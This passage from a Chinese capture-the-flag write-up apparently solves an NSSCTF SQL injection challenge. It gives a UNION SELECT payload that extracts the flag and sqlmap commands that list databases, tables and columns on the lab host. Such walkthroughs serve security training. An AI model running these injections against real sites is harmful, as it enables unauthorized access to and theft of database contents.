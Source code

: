 ![image-20250731113603691](./assets/image-20250731113603691.png)

拿flag

```
/?wllm=-1 ' union select 1,2, group_concat(flag) from test_tb -- '
```

![image-20250731113620381](./assets/image-20250731113620381.png)

## 方法二

输入sqlmap的命令，爆破数据库名：sqlmap -u "url地址/?wllm=1" --dbs

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" --dbs
```

![image-20250731114205127](./assets/image-20250731114205127.png)

爆表名：sqlmap -u "url地址/?wllm=1" -D test_db --tables

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db --tables
```

![image-20250731114420120](./assets/image-20250731114420120.png)

爆列名：sqlmap -u "url地址/?wllm=1" -D test_db -T test_tb --columns
